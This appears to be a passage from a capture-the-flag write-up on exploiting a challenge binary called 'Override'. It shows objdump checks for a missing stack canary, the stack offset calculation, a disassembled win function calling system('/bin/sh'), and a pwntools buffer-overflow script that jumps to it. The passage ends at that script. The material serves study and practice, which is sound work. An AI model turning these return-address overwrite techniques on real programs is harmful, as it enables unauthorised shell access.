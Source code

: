```bash
$ objdump -d Override | sed -n '/40191f/,/40199b/p' | grep -E "fs:0x28"
# No output - control_panel() has no stack canary!
```

Despite `checksec` showing "Canary found" globally, the vulnerable `control_panel()` function lacks stack canary protection.

## Exploitation Development

### Memory Layout Analysis

Stack layout in `control_panel()`:
```
rbp-0x40: [64-byte buffer]
rbp:      [saved rbp] (8 bytes)  
rbp+0x8:  [return address] (8 bytes)
```

Total offset to overwrite return address: 64 + 8 = 72 bytes

### Discovering the Win Function

While analyzing the binary, we found an interesting function:

```bash
$ objdump -d Override | grep -A 10 -B 2 "escape_pod"
```

```asm
0000000000401885 <escape_pod>:
  401885: push   %rbp
  401886: mov    %rsp,%rbp
  401889: lea    0x947a0(%rip),%rax        # 496030 <"/bin/sh">
  401890: mov    %rax,%rdi
  401893: call   4050c0 <__libc_system>   # system("/bin/sh")
  401898: nop
  401899: pop    %rbp
  40189a: ret
```

Perfect! This is a "win function" that directly calls `system("/bin/sh")`.

### First Exploit Attempt

```python
#!/usr/bin/env python3
from pwn import *

# Setup recalibrations (need 4+)
for i in range(5):
    p.recvuntil(b'Choose an action:')
    p.sendline(b'3')

# Trigger emergency override
p.recvuntil(b'Choose an action:')
p.sendline(b'4')
p.recvuntil(b'Enter override access code:')

# Simple overflow to escape_pod
escape_pod = 0x401885
payload = b'A' * 72 + p64(escape_pod)
p.sendline(payload)
```
